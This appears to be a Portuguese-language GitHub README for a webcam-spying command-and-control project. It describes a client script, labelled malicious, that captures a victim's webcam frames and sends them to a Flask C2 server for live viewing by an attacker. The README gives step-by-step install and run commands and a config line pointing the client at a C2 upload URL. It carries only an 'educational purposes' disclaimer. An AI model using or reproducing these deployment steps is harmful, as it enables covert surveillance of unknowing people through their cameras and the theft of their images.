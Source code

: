 # README.md

<h1>C2 Server - Webcam Stream Capture</h1>

<p>Este projeto demonstra o funcionamento de um servidor C2 (Command and Control) que captura frames da webcam da máquina da vítima e os envia para um servidor remoto. O código inclui tanto o lado do servidor C2 quanto o script malicioso do cliente que coleta e envia os frames. <strong>Este código é apenas para fins educacionais e de conscientização sobre segurança, e seu uso mal-intencionado é ilegal.</strong></p>

<hr>

<h2>📋 Descrição</h2>

<p><strong>O que acontece:</strong></p>

<ol>
    <li>O script acessa a webcam da vítima, captura frames periodicamente e os codifica em base64.</li>
    <li>Esses frames são enviados ao servidor C2.</li>
    <li>O servidor C2 armazena os frames recebidos e os exibe em tempo real através de uma interface web, permitindo que um invasor visualize a transmissão da webcam da vítima.</li>
</ol>

<hr>

<h2>🚀 Tecnologias e Bibliotecas Utilizadas</h2>

<ul>
    <li><strong>Flask</strong>: Framework web usado para o servidor C2.</li>
    <li><strong>OpenCV</strong>: Usado para capturar frames da webcam.</li>
    <li><strong>Pillow</strong>: Biblioteca de imagem para manipular e salvar os frames.</li>
    <li><strong>Requests</strong>: Para enviar os frames do cliente ao servidor.</li>
    <li><strong>HTML/CSS/JavaScript</strong>: Para exibir os frames na interface do servidor.</li>
</ul>

<hr>

<h2>⚙️ Instalação</h2>

<h3>Passo 1: Clonar o repositório</h3>

<pre><code>git clone https://github.com/niklaz4/C2-control-and-webcam.git
cd C2-control-and-webcam
</code></pre>

<h3>Passo 2: Criar e ativar o ambiente virtual (venv)</h3>

<p>Para isolar as dependências do projeto, é recomendável criar um ambiente virtual.</p>

<ul>
    <li>Em sistemas Unix ou MacOS:</li>
    <pre><code>python3 -m venv venv</code></pre>
    <li>Ativar o ambiente virtual:</li>
    <pre><code>source venv/bin/activate</code></pre>
    
    <li>Em sistemas Windows:</li>
    <pre><code>python -m venv venv</code></pre>
    <li>Ativar o ambiente virtual:</li>
    <pre><code>venv\Scripts\activate</code></pre>
</ul>

<h3>Passo 3: Instalar as dependências</h3>

<p>Com o ambiente virtual ativado, instale o <strong>Flask</strong> e as bibliotecas necessárias usando o pip:</p>

<pre><code>pip install Flask pillow requests opencv-python</code></pre>

<hr>

<h2>📷 Instruções de Execução</h2>

<h3>1. Configurar e executar o servidor C2:</h3>

<p>Execute o servidor C2:</p>

<pre><code>python c2_server.py</code></pre>

<p>O servidor será iniciado e escutará na porta <strong>5000</strong>. Acesse o endereço no navegador: <code>http://localhost:5000</code></p>

<h3>2. Configurar o codigo malicioso:</h3>

<p>No script <code>webcam.py</code>, defina o endereço IP do servidor C2 na variável <code>c2_server</code>. Por exemplo:</p>

<pre><code>c2_server = "http://192.168.1.100:5000/upload"</code></pre>

<h3>3. Iniciar o script malicioso:</h3>

<p>Execute o codigo que enviará os frames da webcam para o servidor C2:</p>

<pre><code>python webcam.py</code></pre>

<hr>



